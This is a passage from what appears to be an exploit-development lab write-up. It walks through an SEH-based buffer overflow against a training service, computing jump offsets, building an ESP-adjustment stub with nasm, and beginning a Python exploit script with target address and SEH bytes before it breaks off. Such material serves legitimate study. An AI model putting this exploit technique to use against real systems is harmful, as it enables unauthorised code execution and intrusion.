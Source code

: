 **BEFORE**

![](/assets/images/CTP/LTERb4.JPG)

**AFTER**

![](/assets/images/CTP/LTERafter.JPG)

It totally worked and now we will let execution pass down to our new `JMP` operation and we will jump backwards and land in our `A` buffer!!

### Encoding a Second Jump Backwards

After executing our first jump, we are now sitting at `0177FF6D`  inside of our `A` buffer as you can tell from the screenshot.

![](/assets/images/CTP/inthemiddle.JPG)

We can scroll down in our top-left pane and find out the address that this buffer runs into our SEH component code. 

![](/assets/images/CTP/endofbuffer.JPG)

As you can see, the last address space before we run into our SEH overwrite code is `0177FFC3`. Let's subtract our current location from this to determine how many bytes we have to play with: (`0177FFC3` - `0177FF6D` = `56` or 86 in decimal). So we have ~86 bytes to play with. Not quite enough for anything besides possibly a longer jump. The longer jump will be performed by setting a register value to the location of the beginning of our `A` buffer and then jumping to that register with a `call` instruction. 

But first, we need to reset ESP so that our decoded shellcode will appear where we want it. Let's place it right at the end of our `A` buffer so that we have max room. Currently `ESP` points to `0177FFED` so to figure out how much to subtract to get it to `0177FFC3`, we just subtract (`0177FFED` - `0177FFC3` = `2A`). So our `ESP` adjustment code will be:
```terminal_session
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
nasm > sub al, 0x2a
00000000  2C2A              sub al,0x2a
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

So we'll put the variable `espAdj2` and set it equal to: `\x54\x58\x2c\x2a\x50\x5c`. 

We need to calculate how many `A` chars will come before our `espAdj2` code. The `A` buffer starts at `0177F20A`, so to calculate we do: (`0177FF6D` - `0177F20A` = `D63` or 3427 in decimal). 

So we need 3427 `A` chars in our buffer before our `espAdj2` code starts and then we'll put padding after it as well letting python work out the math required. Our exploit code now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'
```